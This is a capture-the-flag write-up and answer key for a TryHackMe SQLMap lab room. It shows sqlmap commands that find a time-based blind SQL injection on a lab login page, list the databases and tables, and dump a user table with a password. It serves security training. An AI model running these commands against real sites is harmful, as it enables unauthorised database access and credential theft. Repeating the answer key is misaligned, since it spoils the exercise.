








##### Link: [SQLMap: The Basics](https://tryhackme.com/room/sqlmapthebasics)
---
##### Task 1: Introduction
1. Which language builds the interaction between a website and its database?
	- `SQL`
---
##### Task 2: SQL Injection Vulnerability
1. Which `boolean` operator checks if at least one side of the operator is true for the condition to be true?
	- `or`
2. Is 1=1 in an SQL query always true? (YEA/NAY)
	- `YEA`
---
##### Task 3: Automated SQL Injection Tool
1. Which flag in the SQLMap tool is used to extract all the databases available?
	- `--dbs`
2. What would be the full command of SQLMap for extracting all tables from the `members` database? (Vulnerable URL: `http://sqlmaptesting.thm/search/cat=1`)
	- `sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables`
---
##### Task 4: Practical Exercise
- Note: `time-based blind` is among the slowest. It could take a while for data extraction. 
1. How many databases are available in this web application?
	- Before enumerating database, we need to identify SQL injection vulnerability on target
	- Visit target website, we find login page
	- Try login with random credential, then check Burp to view the request
	- Copy the request, user it for `sqlmap` with `--batch` option to skip all question and use default setting
		- `sqlmap -u "http://10.49.141.200/ai/includes/user_login?email=test%40test.com&password=Test123" --batch`
			- 
			- 
	- It discover `time-based blind` SQL vulnerability
	- Now we use it to enumerate database with `--dbs` option. 
		- `sqlmap -u "http://10.49.141.200/ai/includes/user_login?email=test%40test.com&password=Test123" --dbs --batch`
			- 
			- 
	- Answer: `6`
2. What is the name of the table available in the `ai` database?
	- `sqlmap -u "http://10.49.141.200/ai/includes/user_login?email=test%40test.com&password=Test123" -D ai --tables --batch`
		- 
		- 
	- Answer: `user`
3. What is the password of the email `test@chatai.com`?
	- `sqlmap -u "http://10.49.141.200/ai/includes/user_login?email=test%40test.com&password=Test123" -D ai -T user --dump --batch`
		- 
		- 
	- Answer: `12345678`
---
